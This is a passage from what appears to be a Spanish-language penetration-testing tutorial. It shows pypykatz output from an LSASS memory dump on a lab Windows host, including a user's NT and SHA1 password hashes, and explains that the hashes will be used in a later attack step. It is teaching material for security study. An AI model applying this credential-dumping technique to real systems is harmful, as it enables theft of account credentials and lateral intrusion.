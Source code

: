```shell-session
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

== LogonSession ==
authentication_id 1343859 (148173)
session_id 2
username DWM-2
domainname Window Manager
logon_server 
logon_time 2021-12-14T18:14:25.248681+00:00
sid S-1-5-90-0-2
luid 1343859
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
	== WDIGEST [148173]==
		username WIN-6T0C3J2V6HP$
		domainname WORKGROUP
		password None
		password (hex)
```

#### MSV

```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) es un paquete de autenticación de Windows que LSA utiliza para validar los intentos de inicio de sesión con la base de datos SAM. Pypykatz extrajo los hashes de contraseña `SID`, `Username`, `Domain`e incluso `NT`& `SHA1`asociados con la sesión de inicio de sesión de la cuenta de usuario bob, almacenados en la memoria del proceso LSASS. Esto resultará útil en el siguiente paso de nuestro ataque, que se describe al final de esta sección.
